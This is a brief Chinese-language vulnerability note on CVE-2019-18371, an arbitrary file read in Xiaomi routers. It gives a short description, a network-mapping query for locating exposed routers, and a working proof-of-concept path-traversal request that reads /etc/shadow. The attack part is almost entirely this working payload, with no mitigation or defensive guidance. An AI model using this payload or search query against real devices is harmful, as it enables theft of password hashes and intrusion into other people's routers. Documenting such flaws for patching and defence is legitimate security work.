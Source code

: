 # 

# 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

```
小米 路由器
```

## 网络测绘

```
app="小米路由器"
```

## 漏洞复现

登录页面

![image-20220715110456566](./images/202207151106569.png)

验证POC

```
/api-third-party/download/extdisks../etc/shadow
```

![](./images/202207151106800.png)
